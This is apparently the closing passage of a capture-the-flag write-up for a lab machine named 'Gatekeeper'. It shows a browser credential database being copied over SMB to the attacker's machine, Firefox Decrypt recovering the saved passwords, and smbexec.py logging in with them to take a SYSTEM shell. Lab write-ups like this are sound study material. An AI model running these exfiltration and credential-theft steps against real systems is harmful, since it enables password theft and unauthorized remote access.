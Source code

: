 This will expose the current directory as a share.

We can see the files on our victim machine under the path:

>C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>

Copy the files to the Kali machine:

```
copy cert9.db \\10.9.167.154\share
```
Do the same for all the required files.

Next we clone the [Firefox Decrypt](https://medium.com/r/?url=https%3A%2F%2Fgithub.com%2Funode%2Ffirefox_decrypt) tool and run it against the folder where we have the files downloaded. When asked for a master password, press enter to continue.

```
python firefox_decrypt/firefox_decrypt.py .
```
We see this gives us some credentials.

![](/assets/img/images/gatekeeper/credentials.png)

### Pwning

We can then use `smbexec` (You can also try with psexec or wmiexec) to log into the server with the credentials provided.

```bash
smbexec.py '<user>:<password>@10.10.15.227'
```
![](/assets/img/images/gatekeeper/system.png)

Grab the root flag under the Desktop of the *mayor* user !

## Lessons Learnt

1. During privilege escalation, avoid potential rabbit holes by doing a quick shortlist of what is required for an exploit to work. If one misses, ignore that path and try another.
   
2. I now understand why it's probably safer to save your passwords using a password manager instead of the browser.












